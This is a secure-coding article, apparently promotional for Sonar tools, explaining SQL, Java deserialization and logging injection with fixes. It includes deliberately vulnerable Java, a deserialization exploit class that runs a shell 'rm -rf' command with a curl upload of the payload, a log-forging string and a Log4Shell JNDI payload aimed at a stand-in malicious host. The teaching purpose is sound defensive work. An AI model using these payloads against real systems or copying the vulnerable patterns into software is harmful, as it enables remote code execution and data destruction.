



### Recent years have seen numerous injection attacks causing significant damage, including a 2019 SQL injection breach in the Fortnite video game and a 2018 attack on Tesla's systems.

Other serious incidents involve the Log4Shell logging injection and a deserialization attack on Atlassian Jira. These examples show that various code vulnerabilities can affect any organization. This article will examine the three most common attack types—SQL injection, Deserialization Injection, and Logging Injection—and discuss ways to prevent them.

In 2019, a famous [breach in Fortnite](https://medium.com/@sashni/dont-play-games-with-your-cybersecurity-c3dbea71685b "breach in Fortnite") , the famous game, reportedly put millions of players at risk of malware. The incident highlighted the importance of properly securing SQL databases.

**But this is not an isolated issue.**

Multiple attacks involving SQL injection have occurred, like the one Tesla experienced in 2018. In that case, Tesla's Kubernetes console was also affected by another SQL injection attack, which caused Tesla financial losses due to unauthorized cripto mining activities.

**But this is not only about SQL Injection.**

There are other [attack vectors](https://en.wikipedia.org/wiki/Attack_vector "attack vectors") that your code can suffer right now, as big companies have suffered in the past.

As the one in 2021 in the Log4J library called Log4Shell that involved a logging injection attack that impacted millions of servers worldwide [up to today](https://www.sonatype.com/resources/log4j-vulnerability-resource-center "up to today"), or the one in 2022 in Atlassian Jira that involved a deserialization attack impacting multiple versions of Jira conceding full control to the attacker.

**It could happen to anyone, even to you.**

In this article, I'll discuss the 3 types of most common attacks in code: **SQL injection** , **Deserialization Injection** , and **Logging Injection**, and how to solve them.

### SQL Injection

Applications that store information in databases often use user-generated values to check for permissions, store information, or simply retrieve data stored in tables, documents, points, nodes, etc.

At that moment, when our application is using those values, improper use could allow attackers to introduce extra queries sent to the database to retrieve unallowable values or even modify those tables to gain access.

The following code retrieves a user from the database considering the username provided in the login page. Everything seems to be fine.

|                                                    |                            |
|----------------------------------------------------|----------------------------|
|  | 

```java
public List findUsers(String user, String pass) throws Exception {
       String query = "SELECT userid FROM users " +
                   "WHERE username='" + user + "' AND password='" + pass + "'";
       Statement statement = connection.createStatement();
       ResultSet resultSet = statement.executeQuery(query);
       List users = new ArrayList();
       while (resultSet.next()) {
           users.add(resultSet.getString(0));
       }
       return users;
}
```

 |

However, when the attacker uses injection techniques, this code, using string interpolation, will result in unexpected results, allowing the attacker to log into the application.



To fix this problem we would change this approach from using string concatenation to parameter injection. In fact, String concatenation is generally a bad idea, in terms of performance and security.

```java
String query = "SELECT userid FROM users " +
               "WHERE username='" + user + "' AND password='" + pass + "'";
```

Changing the inclusion of the parameter values directly in the SQL String, to parameters that we can reference later will solve the problem of hacked queries.

```java
String query = "SELECT userid FROM users WHERE username = ? AND password = ?";
```

Our fixed code will look like this, with the prepareStatement and the value setting for each parameter.

```java
public List findUsers(String user, String pass) throws Exception {
   String query = "SELECT userid FROM users WHERE username = ? AND password = ?";
   try (PreparedStatement statement = connection.prepareStatement(query)) {
       statement.setString(1, user);
       statement.setString(2, pass);
       ResultSet resultSet = statement.executeQuery(query);
       List users = new ArrayList();
       while (resultSet.next()) {
           users.add(resultSet.getString(0));
       }
       return users;
   }
}
```

The SonarQube and SonarCloud rules that help detect the SQL injection vulnerability can be found [here](https://rules.sonarsource.com/java/RSPEC-3649 "here")

### Deserialization injection

Deserialization is the process of converting data from a serialized format (like a byte stream, string, or file) back into an object or data structure that a program can work with.

Common usages of deserialization include data sent between APIs and Web services in the form of JSON structures, or in modern applications using RPC (Remote Procedure Calls) in the form of protobuf messages.

Converting the message payload into an Object can involve serious vulnerabilities if no sanitizing or checking steps are implemented.

```java
protected void doGet(HttpServletRequest request, HttpServletResponse response) {
    ServletInputStream servletIS = request.getInputStream();
    ObjectInputStream  objectIS  = new ObjectInputStream(servletIS);
    User user                 = (User) objectIS.readObject();
  }
class User implements Serializable {
    private static final long serialVersionUID = 1L;
    private String name;

    public User(String name) {
        this.name = name;
    }

    public String getName() {
        return name;
    }
}
```

We can see here that we are using `objectIS`, a direct value coming from the user in the request input stream, and converting it to a new object.  

We expect that the value will always be one of the classes that our application uses. Sure, our client would never send anything else, right? Would they?

But what if a malicious client is sending another class in the request?

```java
public class Exploit implements Serializable {
    private static final long serialVersionUID = 1L;

    private void readObject(java.io.ObjectInputStream in) {
        // Malicious action: Delete a file
        try {
            Runtime.getRuntime().exec(new String[] { "/bin/sh", "-c", "rm -rf /tmp/vulnerable.txt"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

In this case, we have a class that deletes a file during the overridden `readObject` method, which will happen on the previous `readObject` call.

The attacker only needs to serialize this class and send it to the API:

```java
   Exploit exploit = new Exploit();
   FileOutputStream fileOut = new FileOutputStream("exploit.ser");
   ObjectOutputStream out = new ObjectOutputStream(fileOut);
   out.writeObject(exploit);
...
$ curl -X POST --data-binary @exploit.ser http://vulnerable-api.com/user
```

This will cause our call to fail with a class cast Exception, but this won't prevent it from executing the malicious code that happens before the cast.

```java
java.lang.ClassCastException: class org.vulnerable.Exploit cannot be cast to class org.vilojona.topsecurityflaws.deserialization.User
```

Fortunately, there's an easy way to fix this. We need to check if the class to be deserialized is from one of the allowed types before creating the object.

In the code below, we have created a new ObjectInputStream with the "resolveClass" method overridden containing a check on the class name. We use this new class, SecureObjectInputStream, to get the object stream. But we include an allowed list check before reading the stream into an object (User).

```java
 public class SecureObjectInputStream extends ObjectInputStream {
   private static final Set<String> ALLOWED_CLASSES = Set.of(User.class.getName());

   public SecureObjectInputStream(InputStream inputStream) throws IOException {
     super(inputStream);
   }
   @Override
   protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException, ClassNotFoundException {
     if (!ALLOWED_CLASSES.contains(osc.getName())) {
       throw new InvalidClassException("Unauthorized deserialization", osc.getName());
     }
     return super.resolveClass(osc);
   }
 }
...
 public class RequestProcessor {
   protected void doGet(HttpServletRequest request, HttpServletResponse response) {
     ServletInputStream servletIS = request.getInputStream();
     ObjectInputStream  objectIS  = new SecureObjectInputStream(servletIS);
     User input                 = (User) objectIS.readObject();
   }
 }
```

The SonarCloud/SonarQube and SonarLint rules that help detect the deserialization injection vulnerability can be found [here](https://rules.sonarsource.com/java/RSPEC-5135 "here")

### Logging injection

A logging system is a software component or service designed to record events, messages, and other data generated by applications, systems, or devices. Logs are essential for monitoring, troubleshooting, auditing, and analyzing software and system behavior and performance.

Usually, these applications record failures, attempts to log in, and even successes that can help in debugging when an eventual issue occurs.

But, they can also become an attack vector.

Log injection is a type of security vulnerability where an attacker can manipulate log files by injecting malicious input into them. If logs are not properly sanitized, this can lead to several security issues.

We can find issues like log forging and pollution when the attacker modifies the log content to corrupt them or to add false information to make them difficult to analyze or to break log parsers, and also log management systems exploits, where the attacker will inject logs to exploit vulnerabilities in log management systems, leading to further attacks such as remote code execution.

Let's consider the following code, where we take a value from the user and log it.

```java
public void doGet(HttpServletRequest request, HttpServletResponse response) {
    String user = request.getParameter("user");
    if (user != null){
      logger.log(Level.INFO, "User: {0} login in", user);
    }
}
```

It looks harmless, right?

But what if the attacker tries to log in with this user?

|                                                                       |                                            |
|-----------------------------------------------------------------------|--------------------------------------------|
| ``` john login in\n2024-08-19 12:34:56 INFO User 'admin' login in ``` |  |

It's clearly a wrong user name and it will fail. But, it will be logged and the person checking the log will get very confused.

```java
2024-08-19 12:34:56 INFO User 'john' login in 
2024-08-19 12:34:56 ERROR User 'admin' login in
```

Or even worse !! If the attacker knows the system is using a non-patched Log4J version, they can send the below value as the user and the system will suffer from remote execution. The LDAP server controlled by the attacker responds with a reference to a malicious Java class hosted on a remote server. The vulnerable application downloads and executes this class, giving the attacker control over the server.

```
$ { jndi:ldap://malicious-server.com/a}
```

But we can prevent these issues easily.

Sanitizing the values to be logged is important to avoid the log forging vulnerability, as it can lead to confusing outputs forged by the user.

```java
   // Log the sanitised username
   String user = sanitiseInput(request.getParameter("user"));
 }

private String sanitiseInput(String input) {
   // Replace newline and carriage return characters with a safe placeholder
   if (input != null) {
     input = input.replaceAll("[\\n\\r]", "_");
   }
   return input;
 }
```

The result we'll see in the logs is the following, making it now easier to see that all the logs belong to the same call to the log system.

```
2024-08-19 12:34:56 INFO User 'john' login in_2024-08-19 12:34:56 ERROR User 'admin' login in
```

In order to prevent the exploit to the logging system, it's important to keep our libraries updated to the latest stable versions as much as possible. For log4j, that remediation would disable the functionality. We can also manually disable JNDI.

```
-Dlog4j2.formatMsgNoLookups=true
```

If you still need to use JNDI, then a common sanitizing process could avoid malicious attacks by just checking the destination against an allowed destinations list.

```java
public class AllowedlistJndiContextFactory implements InitialContextFactory {
   // Define your list of allowed JNDI URLs
   private static final List ALLOWED_JNDI_PREFIXES = Arrays.asList(
       "ldap://trusted-server.com",
       "ldaps://secure-server.com"
   );

   @Override
   public Context getInitialContext(Hashtable environment) throws NamingException {
       String providerUrl = (String) environment.get(Context.PROVIDER_URL);

       if (isAllowed(providerUrl)) {
           return new InitialContext(environment); 
       } else {
           throw new NamingException("JNDI lookup " + providerUrl + " not allowed");
       }
   }

   private boolean isAllowed(String url) {
       if (url == null) {
           return false;
       }
       for (String allowedPrefix : ALLOWED_JNDI_PREFIXES) {
           if (url.startsWith(allowedPrefix)) {
               return true;
           }
       }
       return false;
   }
}
```

And configure our system to use the filtering context factory.

```
-Djava.naming.factory.initial=com.yourpackage.AllowedlistJndiContextFactory
```

The SonarCloud/SonarQube and SonarLint rules that help detect the logging injection vulnerability can be found [here](https://rules.sonarsource.com/java/RSPEC-5145 "here")

### Conclusion

Security vulnerabilities are not just theoretical concerns but real threats that have already impacted major companies, resulting in substantial financial and reputational damage.

From SQL injections to Deserialization and Logging injections, these attack vectors are prevalent and can easily exploit insecure code if not properly addressed.

By understanding the nature of these vulnerabilities and implementing the recommended fixes, such as using parameterized queries, avoiding unsafe deserialization practices, and properly securing logging frameworks, developers can significantly reduce the risk of these attacks.

Proactive security measures are essential to protect your applications from becoming the next victim of these widespread and damaging exploits.

[Sonar](https://www.sonarsource.com/ "Sonar") provides free and opensource tools like SonarLint, SonarQube, and SonarCloud that can detect, warn about, and suggest fixes for all these vulnerabilities.
